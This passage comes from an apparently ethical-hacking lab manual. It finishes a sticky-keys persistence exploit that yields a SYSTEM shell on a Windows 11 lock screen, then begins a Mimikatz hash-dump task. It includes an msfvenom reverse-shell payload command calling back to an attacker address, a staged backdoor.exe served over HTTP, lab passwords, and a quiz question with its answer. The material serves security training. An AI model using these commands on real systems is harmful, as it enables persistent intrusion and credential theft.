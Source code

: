 	39. In the console type set session 2 to set the privileged session as the current session.
	40. In the console type exploit and press Enter, to begin the exploit.
	
	41. Now click Windows 11 to switch to Windows 11 machine and sign out from the Admin account and sign into Martin account using apple as password.
	42. Martin is a user account without any admin privileges, lock the system and from the lock screen press Shift key 5 times, this will open a command prompt on the lock screen with System privileges instead of sticky keys error window.
	
	43. In the Command Prompt window, type whoami and press Enter.
	
	44. We can see that we have successfully got a persistent System level access to the target system by exploiting sticky keys.
	45. This concludes the demonstration of maintain persistence by exploiting Sticky Keys.
	46. Close all open windows and document all the acquired information.
	47. Sign out from Martin account and sign into Admin account using Pa$$w0rd as password.
	48. Click Parrot Security to switch to the Parrot Security machine and restart the machine. To do that click Menu button at the bottom left of the Desktop, from the menu and click Turn off the device icon. A Shut down this system now? pop-up appears, click on Restart button.
Question 6.2.4.1
Exploit Sticky keys feature to gain access and to escalate previleges on the Windows 11 machine. Enter the domain of Windows 11 obtained from sysinfo command in meterpreter session.
WORKGROUP
Task 5: Escalate Privileges to Gather Hashdump using Mimikatz
Mimikatz is a post exploitation tool that enables users to save and view authentication credentials such as kerberos tickets, dump passwords from memory, PINs, as well as hashes. It enables you to perform functions such as pass-the-hash, pass-the-ticket, and makes post exploitation lateral movement within a network.
Here, we will use Metasploit inbuilt Mimikatz module which is also known as kiwi to dump Hashes from the target machine.
	1. Click Parrot Security to switch to the Parrot Security machine.
	2. In the login page, the attacker username will be selected by default. Enter password as toor in the Password field and press Enter to log in to the machine.
	3. In Parrot Security machine launch a Terminal window.
	4. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	5. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	6. Now, type cd and press Enter to jump to the root directory.
	
	7. Type the command msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/backdoor.exe and press Enter.
	
	8. In the previous lab, we already created a directory or shared folder (share) at the location (/var/www/html) with the required access permission. So, we will use the same directory or shared folder (share) to share backdoor.exe with the victim machine.
To create a new directory to share the backdoor.exe file with the target machine and provide the permissions, use the below commands:
	• Type mkdir /var/www/html/share and press Enter to create a shared folder
	• Type chmod -R 755 /var/www/html/share and press Enter
	• Type chown -R www-data:www-data /var/www/html/share and press Enter
	9. Copy the payload into the shared folder by typing cp /home/attacker/Desktop/backdoor.exe /var/www/html/share/ in the terminal window and press Enter.
	